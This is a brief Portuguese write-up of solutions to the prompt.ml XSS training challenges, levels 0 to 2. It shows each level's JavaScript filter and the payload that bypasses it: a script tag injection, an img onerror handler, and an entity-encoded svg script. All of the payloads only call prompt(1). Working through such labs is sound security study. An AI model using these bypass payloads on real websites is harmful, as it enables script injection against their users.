 # Prompt.ml

###### Solved by @Cubano2
> This is a CTF about 

## About the Challenge  
Aqui neste write-up se encontra as respostas do site [prompt.ml](https://prompt.ml/0)  

Nesse site tem desafios de XSS que ensinam sobre a gente sobre os tipos de vulnerabilidade em aplicação web e em navegadores.
O navegador usado neste write-up foi o Microsof Edge

## level 0
```python
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
O level 0 é bem tranquilo, com uma simples HTML injection consguimos passar dele.
level 0 ```"><script>prompt(1)</script>```

## level 1
```python
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
level 1 ```<img src=1 onerror='prompt(1)'```

level 2 ```<svg><script>prompt&#40;1)</script>```

